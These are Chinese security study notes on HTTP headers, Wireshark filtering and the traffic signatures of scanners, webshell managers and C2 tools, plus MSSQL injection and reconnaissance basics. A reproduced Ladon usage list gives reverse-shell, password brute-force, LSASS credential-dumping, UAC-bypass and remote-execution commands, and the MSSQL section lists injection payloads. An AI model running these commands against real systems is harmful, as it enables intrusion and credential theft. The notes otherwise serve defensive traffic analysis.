#### Proxy-Authorization

浏览器响应代理服务器的身份验证请求，提供自己的身份信息。

#### Range

浏览器（比如 Flashget 多线程下载时）告诉 WEB 服务器自己想取对象的哪部分。例如：Range:bytes=1173546-

#### Referer

浏览器向 WEB 服务器表明自己是从哪个网页/URL 获得/点击当前请求中的网址/URL。例如：Referer：http://www.sina.com/

#### Server

WEB 服务器表明自己是什么软件及版本等信息。例如：Server：Apache/2.0.61 (Unix)

#### User-Agent

浏览器表明自己的身份（是哪种浏览器）。 例如：User-Agent：Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.8.1.14) Gecko/20080404 Firefox/2、0、0、14

#### Transfer-Encoding

WEB 服务器表明自己对本响应消息体（不是消息体里面的对象）作了怎样的编码，比如是否分块（chunked）。例如：Transfer-Encoding:chunked

#### Vary

WEB 服务器用该头部的内容告诉 Cache 服务器，在什么条件下才能用本响应所返回的对象响应后续的请求。假如源WEB服务器在接到第一个请求消息时，其响应消息的头部为： Content-Encoding: gzip; Vary: Content-Encoding 那么 Cache 服务器会分析后续请求消息的头部，检查其 Accept-Encoding，是否跟先前响应的 Vary 头部值一致，即是否使用相同的内容编码方法，这样就可以防止 Cache 服务器用自己 Cache 里面压缩后的实体响应给不具备解压能力的浏览器。例如：Vary：Accept-Encoding

#### Via

列出从客户端到 OCS 或者相反方向的响应经过了哪些代理服务器，他们用什么协议（和版本）发送的请求。当客户端请求到达第一个代理服务器时，该服务器会在自己发出的请求里面添加 Via 头部，并填上自己的相关信息，当下一个代理服务器收到第一个代理服务器的请求时，会在自己发出的请求里面复制前一个代理服务器的请求的 Via 头部，并把自己的相关信息加到后面，以此类推，当 OCS 收到最后一个代理服务器的请求时，检查 Via 头部，就知道该请求所经过的路由。例如：Via：1.0 236.D0707195.sina.com.cn:80 (squid/2.6.STABLE13)

#### Refresh

表示浏览器应该在多少时间之后刷新文档，以秒计。除了刷新当前文档之外，你还可以通过 setHeader(“Refresh”, “5; URL=http://host/path”) 让浏览器读取指定的页面。注意这种功能通常是通过设置 HTML 页面 HEAD 区的 ＜META HTTP-EQUIV=“Refresh” CONTENT=“5;URL=http://host/path"＞ 实现，这是因为，自动刷新或重定向对于那些不能使用 CGI或 Servlet 的 HTML 编写者十分重要。但是，对于 Servlet 来说，直接设置 Refresh 头更加方便。注意 Refresh 的意义是"N 秒之后刷新本页面或访问指定页面”，而不是"每隔N秒刷新本页面或访问指定页面"。因此，连续刷新要求每次都发送一个 Refresh 头，而发送 204 状态代码则可以阻止浏览器继续刷新，不管是使用 Refresh 头还是 ＜META HTTP-EQUIV=“Refresh” …＞。注意 Refresh 头不属于 HTTP 1.1 正式规范的一部分，而是一个扩展，但 Netscape 和 IE 都支持它。

#### Set-Cookie

设置和页面关联的 Cookie。Servlet 不应使用 response.setHeader(“Set-Cookie”, …) ，而是应使用 HttpServletResponse 提供的专用方法 addCookie。

#### Server

服务器名字。Servlet 一般不设置这个值，而是由 Web 服务器自己设置。

#### WWW-Authenticate

客户应该在 Authorization 头中提供什么类型的授权信息？在包含 401（Unauthorized）状态行的应答中这个头是必需的。例如，response.setHeader(“WWW-Authenticate”, “BASIC realm=＼“executives＼””) 。注意 Servlet 一般不进行这方面的处理，而是让 Web 服务器的专门机制来控制受密码保护页面的访问（例如 .htaccess）。

#### POST **请求数据提交格式**

服务端通常是根据请求头（headers）中的 Content-Type 字段来获知请求中的消息主体是用何种方式编码，再对主体进行解析。所以说到 POST 提交数据方案，包含了 Content-Type 和消息主体编码方式两部分。

快到中午了，张三丰不想去食堂吃饭，于是打电话叫外卖：老板，我要一份[鱼香肉丝]，要 12：30 之前给我送过来哦，我在江湖湖公司研发部，叫张三丰。
这里，你要[鱼香肉丝]相当于 HTTP 报文体，而“12：30之前送过来”，你叫“张三丰”等信息就相当于 HTTP 的请求头。它们是一些附属信息，帮忙你和饭店老板顺利完成这次交易。

application/x-www-form-urlencoded

最基本的 form 表单结构,用于传递字符参数的键值对,请求结构如下

```
POST  HTTP/1.1
Host: www.demo.com
Cache-Control: no-cache
Postman-Token: 81d7b315-d4be-8ee8-1237-04f3976de032
Content-Type: application/x-www-form-urlencoded
```

key=value&testKey=testValue
请求头中的 Content-Type 设置为 application/x-www-form-urlencoded; 提交的的数据,请求 body 中按照 key1=value1&key2=value2 进行编码,key 和 value 都要进行 urlEncode;

#### multipart/form-data

这是上传文件时,最常见的数据提交方式,看一下请求结构

```
POST  HTTP/1.1
Host: www.demo.com
Cache-Control: no-cache
Postman-Token: 679d816d-8757-14fd-57f2-fbc2518dddd9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="key"

value
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="testKey"

testValue
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="imgFile"; filename="no-file"
Content-Type: application/octet-stream

<data in here>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

首先请求头中的 Content-Type 是 multipart/form-data; 并且会随机生成 一个 boundary, 用于区分请求 body 中的各个数据; 每个数据以 --boundary 开始, 紧接着换行,下面是内容描述信息, 接着换2行, 接着是数据; 然后以 --boundary-- 结尾, 最后换行;

文本数据和文件,图片的内容描述是不相同的 文本参数:

```
Content-Disposition: form-data; name="key"
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
```

文件参数:

```
Content-Disposition: form-data; name="imgFile"; filename="no-file"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary
```

**请求响应分析**

```
POST /mmtls/00006a5e HTTP/1.1  请求地址 和协议
Accept: */* 接收所有类型
Cache-Control: no-cache 没有缓存
Connection: Keep-Alive 保持连接
Content-Length: 518 返回长度
Content-Type: application/octet-stream 响应类型
Host: 240e:97c:2f:4001::31 
Upgrade: mmtls
User-Agent: MicroMessenger Client 浏览器
X-Online-Host: 240e:97c:2f:4001::31
```

```
POST /ztbox?action=zpblog&appname=pcsearch&v=2.0&data=%7B%22cateid%22%3A%2299%22%2C%22actiondata%22%3A%7B%22id%22%3A18463%2C%22type%22%3A%220%22%2C%22timestamp%22%3A1720509736335%2C%22content%22%3A%7B%22page%22%3A%22home%22%2C%22source%22%3A%22%22%2C%22from%22%3A%22search%22%2C%22type%22%3A%22display%22%2C%22ext%22%3A%7B%7D%7D%7D%7D HTTP/1.1
Host: mbd.baidu.com 请求地址
Cookie: BIDUPSID=26F559E44D0377585F6E20D0849066ED; PSTM=1720509734; BAIDUID=26F559E44D0377582AB02DF95AEC5097:FG=1
Content-Length: 0 响应对象的长度
Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 浏览器Chrome/91.0.4472.101 Safari/537.36

Content-Type: text/plain;charset=UTF-8  返回响应类型
Accept: */* 接受类型
Origin: https://www.baidu.com 源地址
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://www.baidu.com/  来源地址
Accept-Encoding: gzip, deflate  接收编码类型
Accept-Language: zh-CN,zh;q=0.9  
Connection: close 连接关闭
```


#### 正常请求

```
GET http://download.microtool.de:80/somedata.exe get请求 请求后面的网址
Host: download.microtool.de 请求的目标域名或网站
Accept:*/* 表示自己接受什么介质类型 这里/表示任何类型
Pragma: no-cache 无缓存
Cache-Control: no-cache 无缓存 
Referer: http://download.microtool.de/ 来源ip
User-Agent:Mozilla/4.04[en](Win95;I;Nav) 用户代理，也就是浏览器
Range:bytes=554554-制定客户端希望请求的资源范围
```

```
Host：rss.sina.com.cn 请求地址
User-Agent：Mozilla/5、0 (Windows; U; Windows NT 5、1; zh-CN; rv:1、8、1、14) Gecko/20080404 Firefox/2、0、0、14 浏览器
Accept：text/xml,application/xml,application/xhtml+xml,text/html;q=0、9,text/plain;q=0、 8,image/png,*/*;q=0、5   返回类型
Accept-Language：zh-cn,zh;q=0、5  接受语言
Accept-Encoding：gzip,deflate  申明自己的接受编码类型
Accept-Charset：gb2312,utf-8;q=0、7,*;q=0、7 申明字符集
Keep-Alive：300 保持连接
Connection：keep-alive  跟服务器或者代理服务器的连接状态
Cookie：userId=C5bYpXrimdmsiQmsBPnE1Vn8ZQmdWSm3WRlEB3vRwTnRtW           <- Cookie
If-Modified-Since：Sun, 01 Jun 2008 12:05:30 GMT  最后一次修改时间
Cache-Control：max-age=0  缓存可以接收生存期不大于指定时间（以秒为单位）的响应；
```

#### 典型响应

```
HTTP/1.0 200 OK 请求结果
Date:Mon,31Dec200104:25:57MGT 响应时间
Server:Apache/1.3.14(Unix) 请求到的服务
Content-type:text/html 返回实体类型
Last-modified:Tue,17Apr200106:46:28GMT  资源最后修改时间
Etag:"a030f020ac7c01:1e9f" 表示网络资源版本
Content-length:39725426 实际传送回来的字节数
Content-range:bytes554554-40279979/40279980 实际传送范围
content-encoding 文档的编码方法
```

```
Status：OK - 200                                        <- 响应状态码，表示 web 服务器处理的结果。
Date：Sun, 01 Jun 2008 12:35:47 GMT  时间
Server：Apache/2、0、61 (Unix)  服务器
Last-Modified：Sun, 01 Jun 2008 12:35:30 GMT 最后一次修改时间
Accept-Ranges：bytes  接受范围
Content-Length：18616  实际传送回来的字节数
Cache-Control：max-age=120  
Expires：Sun, 01 Jun 2008 12:37:47 GMT  
Content-Type：application/xml   返回类型
Age：2  表明该实体从产生到现在经过多长时间了
X-Cache：HIT from 236-41、D07071951、sina、com、cn      <- 反向代理服务器使用的 HTTP 头部
Via：1.0 236-41.D07071951.sina.com.cn:80 (squid/2.6.STABLE13)
Connection：close 连接关闭
```

## wireshark流量分析

学习文章

```
https://xz.aliyun.com/t/13000?time__1311=GqmhBKYK7IZD%2FD0lb5b4rD9DAo%3DFDfhbD
```

### 数据包筛选

#### 筛选指定流量

基础筛选


可以看到，使用查询语句筛选出了来源ip和目的ip包含我们搜选ip的条

如果要搜索我们ip只要来源ip是这个ip的

我们可以


可以看到就只显示了来源ip与我们搜索相关联的

如果要搜索出ip 语法后改为dst即可


#### 使用逻辑运算符

在实际应用中我们可以会同时需要筛选很多ip，并且对具体的情况有一些要求，则可以使用逻辑运算符来配合使用，增加筛选的灵活性

Wireshark可以使用一下几种逻辑运算符：

```
&& || !=
```

（1）要求筛选出原ip地址为192.168.43.21且目标地址为 20.210.85.71的流量包



（2）要求筛选出原ip地址为192.168.43.21或源地址为 20.210.85.71的流量包


（3）要求筛选出原ip地址不为192.168.43.21的流量包


#### http模式过滤

在web攻击流量分析中，http显得尤为重要，根据攻击特点过滤http流量能更准确定位攻击；如常见上传webshell使用POST请求、指定URI可疑发现一些上传路径或者后台等，另也可以从包含的一些关键特征判断使用的工具、木马、脚本等。

注：下面的所有包都是使用192.168.159.1访问192.168.159.202服务器的流量包

（1）http请求方式为GET语法：

```
http.request.method==”GET”
```

 我们使用本地浏览器访问192.168.159.202?id=1来模拟一个GET访问


（2）http请求方式为POST语法：

```cobol
http.request.method==”POST”
```


（3）请求的URI为/login.php语法：

```cobol
http.request.uri==”/login.php”
```

模拟这个访问也很简单直接在浏览器中输入： http://192.168.159.202/login.php


（4）请求的http中包含sqlmap的语法：

```sql
http contains “sqlmap”
```


（5）请求方式为GET且请求中包含UA信息：

```cobol
http.request.method==”GET” && http contain “User-Agent”
```


#### MAC地址过滤

MAC地址就和ip地址一样是都是网络通信中使用的标识符，在Wireshark中筛选MAC地址与筛序ip地址的形式是差不多的

可以在cmd命令行中输入ipconfig/all来查看本机网卡所对应的mac地址

（1）查看目标MAC地址为00-50-56-C0-00-08的流量包


（2）查看源MAC地址为00-50-56-C0-00-08的流量包


#### 端口筛选

可以通过指定筛选常见端口如445、1433、3306等可以定位相关特殊的服务。

（1）tcp.dstport == 80 筛选tcp协议的目标端口为80 的流量包


（2）tcp.srcport == 80 筛选tcp协议的源端口为80 的流量包


#### 协议筛选

协议过滤可以根据相关服务使用的协议类型进行

```cobol
tcp 筛选协议为tcp的流量包

udp 筛选协议为udp的流量包

arp/icmp/http/ftp/dns/ip 筛选协议为arp/icmp/http/ftp/dns/ip的流量包
```

这里就以icmp包为例：

我们使用本地192.168.159.1ping192.168.159.202来产生icmp流量包


#### 包长度筛选

## wireshark常见恶意流量分析

### 网站流量特征分析

#### dirsearch

主要是一个python写的目录扫描工具

主要特征： 通过显示过滤器,过滤 http.request数据流，可以在数据流中看到大量http GET请求再对路径以及文件进行爆破，可以发现在info中的路径有很明显的顺序,例如dir将a开头的路径跑完后就开始跑b开头的路径如此反复,所以在遇到有类似特征的流量，可以初步判断为dirsearch攻击。


可以看到很明显的目录扫描流量条

**示例**


#### sqlmap

主要是用户对于sql注入漏洞的扫描和利用

主要特征：依然是通过wireshark的显示过滤器过滤sqlmap攻击流量包 过滤 http.request后，可以发现info中有大量的sql语句。


流量


只要攻击者没有设置，在流量的请求头可以看到很明显的sqlmap特征


如果需要过滤sqlmap的数据流 使用 http.user_agent contains sqlmap 可以将包含sql的数据流过滤出来，进行下一步分析。

### 漏洞扫描器流量分析

#### dwvs


#### nmap

主要用于端口扫描

主要特征：使用显示过滤器过滤namp流量包

```
tcp && ip.dst == [namp扫描的ip]
```

可以发现有大量的tcp包 在对目标ip进行端口访问


**示例流量：**


#### aazhen(thinkphp)漏洞扫描器


请求带个think尝试命令执行

#### ladon综合扫描工具

##### 概述

```
大型内网渗透扫描器&Cobalt Strike，Ladon7.2内置94个模块，包含信息收集/存活主机/端口扫描/服务识别/密码爆破/漏洞检测/漏洞利用。漏洞检测含MS17010/SMBGhost/Weblogic/ActiveMQ/Tomcat/Struts2，密码口令爆破(Mysql/Oracle/MSSQL)/FTP/SSH(Linux)/VNC/Windows(IPC/WMI/SMB/Netbios/LDAP/SmbHash/WmiHash/Winrm),远程执行命令(wmiexe/psexec/atexec/sshexec/webshell),降权提权Runas、GetSystem，Poc/Exploit,支持Cobalt Strike 3.X-4.0
```

##### **使用方法**

```
005 ICMP扫描存活主机
Ladon 192.168.1.8/24 Ping
006 SMBGhost漏洞检测 CVE-2020-0796 （IP、机器名、漏洞编号、操作系统版本）
Ladon 192.168.1.8/24 SMBGhost
007 扫描Web信息/Http服务
Ladon 192.168.1.8/24 WebScan
008 扫描C段站点URL域名
Ladon 192.168.1.8/24 UrlScan
009 扫描C段站点URL域名
Ladon 192.168.1.8/24 SameWeb
010 扫描子域名、二级域名
Ladon baidu.com SubDomain
011 域名解析IP、主机名解析IP
Ladon baidu.com DomainIP Ladon baidu.com HostIP
012 域内机器信息获取
Ladon AdiDnsDump 192.168.1.8 （Domain IP）
013 扫描C段端口、指定端口扫描
Ladon 192.168.1.8/24 PortScan Ladon 192.168.1.8 PortScan 80,445,3389
014 扫描C段WEB以及CMS（75种Web指纹识别）
Ladon 192.168.1.8/24 WhatCMS
015 扫描思科设备
Ladon 192.168.1.8/24 CiscoScan Ladon http://192.168.1.8 CiscoScan
016 枚举Mssql数据库主机 （数据库IP、机器名、SQL版本）
Ladon EnumMssql
017 枚举网络共享资源 （域、存活IP、共享路径）
Ladon EnumShare
018 扫描LDAP服务器
Ladon 192.168.1.8/24 LdapScan
019 扫描FTP服务器
Ladon 192.168.1.8/24 FtpScan
暴力破解/网络认证/弱口令/密码爆破/数据库/网站后台/登陆口/系统登陆
密码爆破详解参考SSH：http://k8gege.org/Ladon/sshscan.html
020 445端口 SMB密码爆破(Windows)
Ladon 192.168.1.8/24 SmbScan
021 135端口 Wmi密码爆破(Windowns)
Ladon 192.168.1.8/24 WmiScan
022 389端口 LDAP服务器、AD域密码爆破(Windows)
Ladon 192.168.1.8/24 LdapScan
023 5985端口 Winrm密码爆破(Windowns)
Ladon 192.168.1.8/24 WinrmScan.ini
024 445端口 SMB NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 SmbHashScan
025 135端口 Wmi NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 WmiHashScan
026 22端口 SSH密码爆破(Linux)
Ladon 192.168.1.8/24 SshScan Ladon 192.168.1.8:22 SshScan
027 1433端口 Mssql数据库密码爆破
Ladon 192.168.1.8/24 MssqlScan
028 1521端口 Oracle数据库密码爆破
Ladon 192.168.1.8/24 OracleScan
029 3306端口 Mysql数据库密码爆破
Ladon 192.168.1.8/24 MysqlScan
030 7001端口 Weblogic后台密码爆破
Ladon http://192.168.1.8:7001/console WeblogicScan Ladon 192.168.1.8/24 WeblogicScan
031 5900端口 VNC远程桌面密码爆破
Ladon 192.168.1.8/24 VncScan
032 21端口 Ftp服务器密码爆破
Ladon 192.168.1.8/24 FtpScan
033 8080端口 Tomcat后台登陆密码爆破
Ladon 192.168.1.8/24 TomcatScan Ladon http://192.168.1.8:8080/manage TomcatScan
034 Web端口 401基础认证密码爆破
Ladon http://192.168.1.8/login HttpBasicScan
035 445端口 Impacket SMB密码爆破(Windowns)
Ladon 192.168.1.8/24 SmbScan.ini
036 445端口 IPC密码爆破(Windowns)
Ladon 192.168.1.8/24 IpcScan.ini
漏洞检测/漏洞利用/Poc/Exp
037 SMB漏洞检测(CVE-2017-0143/CVE-2017-0144)
Ladon 192.168.1.8/24 MS17010
038 Weblogic漏洞检测(CVE-2019-2725/CVE-2018-2894)
Ladon 192.168.1.8/24 WeblogicPoc
039 PhpStudy后门检测(phpstudy 2016/phpstudy 2018)
Ladon 192.168.1.8/24 PhpStudyPoc
040 ActiveMQ漏洞检测(CVE-2016-3088)
Ladon 192.168.1.8/24 ActivemqPoc
041 Tomcat漏洞检测(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatPoc
042 Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp
043 Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp
044 Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc
FTP下载、HTTP下载
045 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar
046 Ftp下载
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe
加密解密(HEX/Base64)
047 Hex加密解密
Ladon 123456 EnHex Ladon 313233343536 DeHex
048 Base64加密解密
Ladon 123456 EnBase64 Ladon MTIzNDU2 DeBase64
网络嗅探
049 Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5
050 HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5
051 网络嗅探
Ladon Sniffer
密码读取
052 读取IIS站点密码、网站路径
Ladon IISpwd
DumpLsass内存密码
Ladon DumpLsass
信息收集
053 进程详细信息
Ladon EnumProcess Ladon Tasklist
054 获取命令行参数
Ladon cmdline Ladon cmdline cmd.exe
055 获取渗透基础信息
Ladon GetInfo Ladon GetInfo2
056 .NET & PowerShell版本
Ladon NetVer Ladon PSver Ladon NetVersion Ladon PSversion
057 运行时版本&编译环境
Ladon Ver Ladon Version
远程执行(psexec/wmiexec/atexec/sshexec)
445端口 PSEXEC远程执行命令（交互式）
net user \192.168.1.8 k8gege520 /user:k8gege Ladon psexec 192.168.1.8 psexec> whoami nt authority\system
058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami
061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami
062 WebShell远程执行命令（非交互式）
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
提权降权
063 BypassUac 绕过UAC执行,支持Win7-Win10
Ladon BypassUac c:\1.exe Ladon BypassUac c:\1.bat
064 GetSystem 提权或降权运行程序
Ladon GetSystem cmd.exe Ladon GetSystem cmd.exe explorer
065 Runas 模拟用户执行命令
Ladon Runas user pass cmd
其它功能
066 Win2008一键启用.net 3.5
Ladon EnableDotNet
067 获取内网站点HTML源码
Ladon gethtml http://192.168.1.1
068 检测后门
Ladon CheckDoor Ladon AutoRun
069 获取本机内网IP与外网IP
Ladon GetIP
070 一键迷你WEB服务器
Ladon WebSer 80 Ladon web 80
反弹Shell
071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc
072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell
073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter
074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444
075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444
076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd Ladon PowerCat 192.168.1.8 4444 psh
077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp Ladon PowerCat 192.168.1.8 4444 psh udp
078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3 Ladon RDPHijack 3 console
079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan Ladon 192.168.1.8/24 OxidScan
080 查看用户最近访问文件
Ladon Recent
081 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe
082 AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe Ladon at c:\123.exe gui
083 SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe Ladon sc c:\123.exe gui Ladon sc c:\123.exe auto ServerName
084 MS16135提权至SYSTEM
Ladon ms16135 whoami
085 BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline
086 SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline
087 whoami查看当前用户权限以及特权
Ladon whoami
088 Open3389一键开启3389
Ladon Open3389
089 RdpLog查看3389连接记录
Ladon RdpLog
090 QueryAdmin查看管理员用户
Ladon QueryAdmin
091 激活内置管理员Administrator
Ladon ActiveAdmin
092 激活内置用户Guest
Ladon ActiveGuest
093 查看本机命名管道
Ladon GetPipe
094 139端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan
```

##### 示例

001、多协议探测存活主机 （IP、机器名、MAC地址、制造商），直接输入要扫描的ip段，选择OnlinePC


002、多协议识别操作系统 （IP、机器名、操作系统版本、开放服务），输入ip地址，选择OsScan


003，扫描存活主机


004、扫描SMB漏洞MS17010


#### laravel框架漏洞

laravel框架漏洞


#### weblogic tool


直攻7001

### webshell管理工具流量特征分析

#### 蚁剑

主要特征：蚁剑是明文传输（即使使用了加密与编码，也会有包传输密码协商过程，该过程也会有明文存在）即：在post包中的html可以看到传入的参数 观察多个POST包中可以发现html下属的form item都有一个display_errors


可以看到有比较明显的display_errors

右键，选择作为过滤器应用中选中


将显示过滤器中多余的信息删去，只留下 urlencoded-form.value contains "display_errors"


然后在追踪http 通过url解密，就可以实现分析攻击者的操作，溯源等操作


#### 冰蝎

也是一个webshell管理工具

主要特征： 冰蝎2.0，3.0，4.0版本之间各有差异
例如4.0的特征：
在4.0更新的源代码中，定义了14个user-agen

```
"Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.55",
"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0",
"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/84.0.4147.125 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/84.0.4147.125 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0",
"Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
```

大部分为第一个user-agent


如果需要拦截这个攻击，可以在防火墙中拦截Chrome/89.0.4389.114 这个版本的流量 因为现在chrome更新到100.xx的版本了 只要攻击者或者极少用户使用，影响不大


**2.请求体头部字节与响应头部字节不会变化**


可以发现他们请求体中的key值开头一直不变 这是在实际情况是不可能的 所以在看到此特征的流量可以直接判断为冰蝎。

#### 哥斯拉

也是一款webshell管理工具

```
主要特征：哥斯拉客户端与 shell 建连初期的三个固定行为特征，且顺序出现在同一个 TCP 连接中。可以总结为：
特征：发送一段固定代码（payload），http 响应为空
特征：发送一段固定代码（test），执行结果为固定内容
特征：发送一段固定代码（getBacisInfo）
先发送一段pass的加密密文
```


然后目标服务器会返回一串空回复


可以看到响应包是一串空回复

在通过交互2次 返回固定值 密文


哥斯拉的响应体中有一个特征是前16位和后16为会组成一个32位md5 正则匹配类似于(?i:[0-9A-F]{16})[\w+/]{4,}=?=?(?i:[0-9A-F]{16})
可以在返回包中的密文发现 前16和后16为一个32位的MD5值


### 常见c2远控服务器特征流量分析

#### metasploit


#### cobaltstrike

cs内网操作，shell相关，用于模拟网络攻击、横向移动、特权升级、持久化访问以及命令和控制等任务。

主要特征：
cs使用的http协议 cs流量包的第一个GET请求 有一个随机编码 IPYK转换为ascii 之和与 256 取余计算值等于 92 ，下载stage payload的过程uri符合 checksum8 规则，即：路径的 ascii 之和与 256 取余计算值等于 92


(2) c2服务器如果没有任务下发，会有规律的请求响应间隔，用于维持连接，比如这里是每间隔3s，发一次包（间隔时间可以在cs内设置） 有些响应在4s，是因为网络有延迟不影响


如果cs服务器有任务下发，则会加密放在http心跳包的cookie里面，下发后，靶机完成指令，也同样会返回一个post包都加密并隐藏在cookie中。

```
！@#￥%……&*（）——+&&7L
```

## MSsql注入

### 概述

SQL Server 是一个**关系数据库管理系统**。经常与asp或者aspx一起使用

### 详解

#### 系统自带库

MSSQL安装后默认带了6个数据库，其中4个系统级库：master，model，tempdb和msdb；2个示例库：Northwind Traders和pubs。

```
master：主要为系统控制数据库，其中包括了所有配置信息、用户登录信息和当前系统运行情况。
model：模版数据库
tempdb：临时容器
msdb：主要为用户使用，所有的告警、任务调度等都在这个数据库中。
```

#### 系统自带表

MSSQL数据库与Mysql数据库一样，有安装自带的数据表sysobjects和syscolumns等，其中需要了解的就是这两个数据表

```
sysobjects：记录了数据库中所有表，常用字段为id、name和xtype。
syscolumns：记录了数据库中所有表的字段，常用字段为id、name和xtype。

//id为标识，name为对应的表名和字段名，xtype为所对应的对象类型
```

### 权限问题

sqlserver存在三种权限：

```
sa:能对所有库操作
dbowner:只能对所拥有的库操作
public
```

Msssql的默认端口号是1433，oracle的端口号是1521，mysql是3306，在windows下通过netstat -an -p tcp -o指令就能看到，并且可以查看到对于的进程pid，通过任务管理器可以查看到进程是 谁。

mssql数据库中有两种用户：windows系统用户和sql用户。windows系统用户只能本地连接，sql用户可以本地也可以远程

### 注入流程

```
1、判断注入点
' 单引号是否报错
and 1=1 / and 1=2 页面是否相同

2、判断数据库类型是否为MSSQL
and (select count(*) from sysobjects)>0
and exists(select * from sysobjects)

3、判断注入点权限
//当前是否为sa
and exists(select is_srvrolemember('sysadmin'))
或and (select is_srvrolemember('sysadmin'))>0
//判断当前用户写文件、读文件的权限
and exists(select is_srvrolemember('db_owner'))
或and (select is_srvrolemember('db_owner'))>0
//判断是否有public权限，可以爆破表
and exists(select is_srvrolemember('public'))
或and (select is_srvrolemember('public'))>0

4、查询数据库名
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始

5、查询当前用户

6、查表名

7、爆数据


//常用函数
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始
@@version			数据库版本
User_Name() 	当前用户
host_name()		计算机名称

//是否站库分离,报错是站库分离
1' and ((select host_name())=(select @@SERVERNAME))--+

//排序&获取下一条数据
mssql数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，后面与Oracle数据库注入一样，使用<>或not in 来排除已经显示的数据，获取下一条数据。但是与Oracle数据库不同的是使用not in的时候后面需要带上(‘’)，类似数组，也就是不需要输入多个not in来获取数据，这可以很大程序减少输入的数据量，如下：
//使用<>获取数据 <> : 不等于
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--#
//使用not in获取数据
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')--#
```

#### 联合注入

# 7.17

学习文章：

```
https://blog.csdn.net/suruoxun/article/details/139530306
```

# 渗透测试手法

### 01信息搜集

#### 域名搜集

##### 域名ip端口

**域名信息查询：**信息可用于后续渗透


**IP信息查询：**

确认域名对应IP，确认IP是否真实，确认通信是否正常

**端口查询：**

用nmap等工具进行端口扫描，看端口开放的情况

#### 指纹识别

其实就是网站的信息。比如通过可以访问的资源，如网站首页，查看源代码:

